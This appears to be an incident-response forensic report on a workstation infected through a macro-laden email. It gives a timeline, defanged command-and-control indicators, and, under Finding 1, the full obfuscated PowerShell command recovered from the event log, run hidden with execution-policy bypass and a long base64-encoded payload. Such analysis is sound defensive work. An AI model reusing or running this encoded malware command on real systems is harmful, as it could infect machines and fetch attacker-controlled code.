 # Forensic Analysis of WKST01 Collections

**TimeLine:**

| Timestamp | Activity |
| -- | -- |
| 02/12/2022 21:10:06 +0000 | Malicious Email Received |
| 02/12/2022 21:12:12 +0000 | Macros Enabled |
| 02/12/2022 21:12:12 +0000 | Malicious Powershell Payload Executed |
| 02/12/2022 22:31:57 +0000 | Connection from explorer.exe to 3.132.192[.]16 (malwarelove[.]xyz) |

---

**Conclusion:** Amanda Nuensis received an email with a malicious document (detected as: Trojan:O97M/Sadoca.C!ml by Windows Defender).  She opened it and enabled Macros, which dropped a malicious Powershell script that communicated with a C2 server (https://malwarelove[.]xyz/index-en-US.html / 3.132.192[.]16) and downloaded malware.  The payload could not be downloaded, since the server no longer responds.

---

## Collection-wkst01_magnumtempus_financial-2022-02-12T23_46_58Z

---

**Finding 1:** Powershell Encoded Malware in: Windows PowerShell.evtx
  
**Encoded Malware Located in EVTX: 2022-02-12 21:12:12**
```
powershell -exec bypass -nologo -nop -w 
hidden -enc KAAgAG4ARQB3AC0AbwBiAGoARQBD
AFQAIABJAG8ALgBzAHQAcgBFAEEAbQBSAEUAQQBk
AGUAcgAoACAAKABuAEUAdwAtAG8AYgBqAEUAQwBU
ACAASQBvAC4AYwBvAG0AUABSAGUAcwBTAGkATwBu
AC4AZABFAGYAbABBAHQAZQBzAFQAcgBlAEEAbQAo
ACAAWwBzAFkAUwB0AGUATQAuAEkAbwAuAE0AZQBt
AE8AcgBZAHMAdAByAEUAQQBNAF0AIABbAEMAbwBu
AFYAZQBSAFQAXQA6ADoARgBSAG8AbQBiAEEAUwBF
ADYANABzAHQAcgBpAG4ARwAoACAAJwBYAFYAYgBM
AGIAbABRADUARQBQADIAVgBXAG8AQQA2AEwAUgB4
AGsAWAA3ACsAWABJAEcAVQBCAEMAMABDAEIAeABV
AGgAUgBOAEUASQBvAFEARABaAEIAQQBzAFMARwBt
AFgAKwBuAFQAagAxADgAYgA1AEMAZwB1ADIATwBY
ADYAMwBGADgANgBwAFQAcABPAFYAMwBRAHgAYwAy
AFAARAA5AGYAMwBiADcANwBjAFAAdgBsADEAOQBm
ADMAbAAyAC8AZABYADcANgA3AHYAUABsADkAZAAz
AHoAMQA4AHUAagB2AGYAcABKAEIAdgBuADUAMwAr
AE8AVgAyACsAZgBuAHYALwA1AG4AUQA2AHcANQA0
AHUAWgBxAEoAQQBmAGYAQgBIAGkAdgBpAFoAVQBx
AE4AUQBXAGgAaABaAGwAMABKAEsAUgBaAFkASAAv
AHEAeQBCADUAcgBTAE4ARQBZAGsAMwBrAHkAMgBu
AEYAUABVADAAZQArAHQAaABkAHUAeABGAHQAdQA1
AGkAegBjADcAYwBQAFgAdQBiAE8AVgBEAGwAawBI
AFYAdwBtAEUATQBVAEIARgBsAG0AZwBWAHIAZgBr
AHkAcQBlAG0AZwBhAEwAbQAvAHgAaQBWADUAeQBO
AHgAdABCAE4AVABtAGMAMABoAEkAWABSAFUAQgB2
ACsARgBXAEUAVgBrAEoAMgBzAEkARwAxAEoAdQBI
AFgAWgBNAEYAdABPAGEAUQA1AFoAZwBOAHMAVQBl
AFQATgB6AG8ASgBiAGsASwAyADIAYwBhADAAWQBV
AEYAQwBrAFoAcAB0AFEAMQBaAHQAcgBZAGEAdwBV
AHkATQBPAEQAMQBLAFMANABhAEoAOQAvAEgAWABz
```